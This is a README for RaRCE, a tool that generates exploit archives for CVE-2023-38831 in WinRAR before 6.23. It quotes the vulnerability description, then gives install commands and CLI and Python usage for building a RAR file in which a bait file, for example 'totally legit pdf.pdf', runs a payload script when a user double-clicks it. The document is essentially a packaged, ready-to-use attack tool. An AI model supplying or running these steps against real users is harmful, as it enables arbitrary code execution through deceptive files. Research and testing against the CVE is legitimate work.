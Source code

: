 
## RaRCE, Exploit generator for CVE-2023-38831

[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
![GitHub](https://img.shields.io/github/license/ignis-sec/CVE-2023-38831-RaRCE?style=for-the-badge)


This is an easy to install and easy to use, versatile exploit generator for [CVE-2023-38831](https://nvd.nist.gov/vuln/detail/CVE-2023-38831), a vulnerability that affects WinRAR versions before 6.23.


> RARLabs WinRAR before 6.23 allows attackers to execute arbitrary code when a user attempts to view a benign file within a ZIP archive. The issue occurs because a ZIP archive may include a benign file (such as an ordinary .JPG file) and also a folder that has the same name as the benign file, and the contents of the folder (which may include executable content) are processed during an attempt to access only the benign file. This was exploited in the wild in April through August 2023.


## How to install

### Using pip

You can install the tool easily via pip.
```bash
pip install rarce
```

Or, you can use it from the source code.

```bash
git clone https://github.com/ignis-sec/CVE-2023-38831-RaRCE
cd CVE-2023-38831-RaRCE
python3 setup.py install
```


## How to use

```
usage: rarce [-h] [-v] [-i] [-dt] [-pt PRESERVE_TEMP] bait switch output

Exploit generator for CVE-2023-38831

positional arguments:
  bait                  Path to the bait file to to add to the archive.
  switch                Path to the payload to switcheroo with the bait file on double click.
  output                Path to the output file.

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbose output.
  -i, --ignore-path-check
                        Ignore path validity check. If given, rarce can overwrite existing files given in output parameter, and can create missing folders for
                        output path.
  -dt, --dont-use-tempdir
                        Prevent the tool from creating a temporary directory when creating the exploit. Instead, create the intermediate folders in current
                        working directory.
  -pt PRESERVE_TEMP, --preserve-temp PRESERVE_TEMP
                        Preserve the temporary directory after creating the exploit. Has no effect if -dt or --dont-use-tempdir is not specified.
```

After installing via pip or setup.py, you can use this tool from the command line. Following command will create the exploit file for you. When a user double clicks the bait file, the payload script or executable will run instead.

```bash
$ rarce "totally legit pdf.pdf" "payload.cmd" "exploit.rar"
```

Optionally, you can use it as a runnable module.

```bash
python -m rarce "totally legit pdf.pdf" "payload.cmd" "exploit.rar"
```

You can also use it within your existing code.

```python
from rarce import exploit

exploit("totally legit pdf.pdf", "payload.cmd", "exploit.rar")
```


[contributors-shield]: https://img.shields.io/github/contributors/ignis-sec/CVE-2023-38831-RaRCE.svg?style=for-the-badge
[contributors-url]: https://github.com/ignis-sec/CVE-2023-38831-RaRCE/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/ignis-sec/CVE-2023-38831-RaRCE.svg?style=for-the-badge
[forks-url]: https://github.com/ignis-sec/CVE-2023-38831-RaRCE/network/members
[stars-shield]: https://img.shields.io/github/stars/ignis-sec/CVE-2023-38831-RaRCE.svg?style=for-the-badge
[stars-url]: https://github.com/ignis-sec/CVE-2023-38831-RaRCE/stargazers
[issues-shield]: https://img.shields.io/github/issues/ignis-sec/CVE-2023-38831-RaRCE.svg?style=for-the-badge
[issues-url]: https://github.com/ignis-sec/CVE-2023-38831-RaRCE/issues
[license-shield]: https://img.shields.io/github/license/ignis-sec/CVE-2023-38831-RaRCE.svg?style=for-the-badge
[license-url]: https://github.com/ignis-sec/CVE-2023-38831-RaRCE/LICENSE
